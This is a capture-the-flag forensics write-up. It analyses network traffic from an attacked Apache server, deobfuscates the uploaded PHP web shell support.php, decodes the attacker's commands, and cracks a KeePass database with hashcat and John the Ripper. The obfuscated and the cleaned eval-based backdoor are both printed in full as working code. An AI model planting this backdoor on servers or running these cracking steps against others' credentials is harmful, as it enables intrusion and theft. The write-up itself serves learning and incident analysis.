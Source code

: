 # Obscure

> **An attacker has found a vulnerability in our web server that allows arbitrary**
> **PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what**
> **seems to be like an obfuscated shell (support.php). We monitor our network 24/7**
> **and generate logs from tcpdump (we provided the log file for the period of two**
> **minutes before we terminated the HTTP service for investigation), however, we**
> **need your help in analyzing and identifying commands the attacker wrote to**
> **understand what was compromised.**

## The network traffic

Using wireshark, the protocol breakdown of `19-05-21_22532255.pcap` shows that 96% of the
traffic is common IPv4 HTTP with web pages, js, images.

Yet there's a single IPv6 stream of data, filled with random bytes, and comming from nowhere.

Next, exporting all the HTTP objects, we see:

- 8 requests to the attacker script `/uploads/support.php` filled with base64 suspects
- 1 request to `/upload.php`, which allowed the attacker to put his code on the server

Yet running `base64 -d` on the data doesn't return anything obviously meaningful.
The php code should tell us how to decode all this data.

## The obscure code

The obfuscation of `support.php` looks fairly straightforward:

```php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';
$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
```

- `$N` will contain a function name
- `$u` is the payload:
  - made from the concatenation of the rest of the strings
  - interpretable after removing the meaningless `'u)'`
- `$x` will contain encapsulate `$u` in a function that is ultimately called

## The -mostly- clear code

Dynamic analysis will directly output the deobfuscated code, after:

- commenting out the function calls `$x=$N('',$u);$x();`
- adding instructions to output `$N` and `$x`
- starting a local server

```php
$N='create_function'
$k="80e32263";
$kh="6f8af44abea0";
$kf="351039f4a7b5";
$p="0UlYyJHG87EJqEz6";
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t[$i]^$k[$j];
        }
    }
    return $o;
}
if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
    $o=@ob_get_contents();
    @ob_end_clean();
    $r=@base64_encode(@x(@gzcompress($o),$k));
    print("$p$kh$r$kf");
}
```

So actually the data was first compressed, then xorred and finally base64 encoded.

The input and output have the same formating, so both can be fed to the same
decrypting function.

## The instructions

Again, let's run the script and replay the captured input & output with:

```php
if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){
    print(@gzuncompress(@x(@base64_decode($m[1]),$k)));
}
```

## The data

So the attacker looked his id up, searched for accessibles folders and finally
dumped a credential database.

`pwdb.kdbx` is the storage database for keepass.

I could neither guess the master password nor find it in the traffic dump. Let's
bruteforce it:

```bash
keepass2john pwdb.kdbx > pwdb.hash
hashcat -m 13400 -a 0 -w 2 /usr/share/wordlists/passwords/rockyou-75.txt pwdb.hash
john -w /usr/share/wordlists/passwords/rockyou-75.txt pwdb.hash
```

Actually hashcat didn't recognize john's format, so I used the latter.
Anyway it was enough, we can finally open the database with keepass and copy the
password for admin user, which is the flag.
